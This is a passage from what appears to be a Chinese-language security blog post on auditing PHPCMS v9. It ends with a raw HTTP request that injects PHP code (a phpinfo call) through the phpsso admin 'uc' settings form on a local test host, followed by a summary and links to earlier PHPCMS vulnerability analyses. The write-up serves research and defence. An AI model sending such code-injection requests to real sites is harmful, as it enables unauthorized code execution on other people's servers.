1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 POST /phpsso_server/index.php?m=admin&c=system&a=uc HTTP/1.1 Host : phpcms.test:8888Content-Length : 285Cache-Control : max-age=0Upgrade-Insecure-Requests : 1Origin : http://phpcms.test:8888Content-Type : application/x-www-form-urlencodedUser-Agent : Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36Accept : text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Referer : http://phpcms.test:8888/phpsso_server/index.php?m=admin&c=system&a=ucAccept-Encoding : gzip, deflateAccept-Language : zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6Cookie : 需要登陆Connection : closeucuse =0 &data%5 BUC_TEST','1 ');phpinfo();//%5 D=111 &data%5 Buc_api%5 D=111 &data%5 Buc_ip%5 D=&data%5 Buc_dbhost%5 D=&data%5 Buc_dbuser%5 D=&data%5 Buc_dbpw%5 D=&data%5 Buc_dbname%5 D=&data%5 Buc_dbtablepre%5 D=&data%5 Buc_dbcharset%5 D=&data%5 Buc_appid%5 D=&data%5 Buc_key%5 D=&dosubmit=%E6 %8 F%90 %E4 %BA%A4
效果如下：
0x03 总结 本次对 phpcms 做了一个代码审计，通过全局分析掌握了phpcms的基本MVC模式，能明显感受到phpcms不同于其他的CMS，它的结构更加复杂，审计起来十分磨人。其实审计phpcms的代码我也没有完全的看完，基本都是看的前人挖出的漏洞复现审计。感觉想要完全审计下这种结构的代码需要十足的耐心才行。
参考：
PHPCMS v9.6.0 任意文件上传漏洞分析：https://paper.seebug.org/273/
PHPCMS v9.6.0 wap模块 SQL注入：https://paper.seebug.org/275/ ; https://www.secpulse.com/archives/57486.html
PHPCMS 代码审计：https://github.com/jiangsir404/PHP-code-audit/blob/master/phpcms/phpcmsv9.6.0-sqli.md
PHPCMS历史漏洞分析：https://mochazz.github.io/2019/07/18/phpcms%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%90%88%E9%9B%86/#v9-6-0%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0
PHPCMS漏洞分析合集(上)：https://xz.aliyun.com/t/5730